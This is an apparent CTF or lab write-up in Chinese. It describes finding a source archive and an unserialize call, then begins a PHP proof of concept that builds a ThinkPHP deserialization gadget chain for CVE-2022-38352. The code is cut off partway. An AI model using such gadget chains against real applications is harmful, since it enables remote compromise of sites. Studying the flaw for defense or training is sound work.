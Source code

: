 ![image-20240422145416365](./img/README/image-20240422145416365.png)






## CVE

### CVE-2022-38352
> CVE-2022-38352

目录扫描发现 `www.zip`，下载后发现存在`unserialize`，利用 `CVE-2022-38352` 反序列化链构造POC

```php
<?php
namespace think\view\driver;
class Php
{
}

namespace think;
class App {
    protected $instances = [];

    public function __construct()
    {
        $this->instances = [
            "think\Request"=>new Request(),
        ];

    }
}
class Request {
    protected $url;

    public function __construct()
    {
```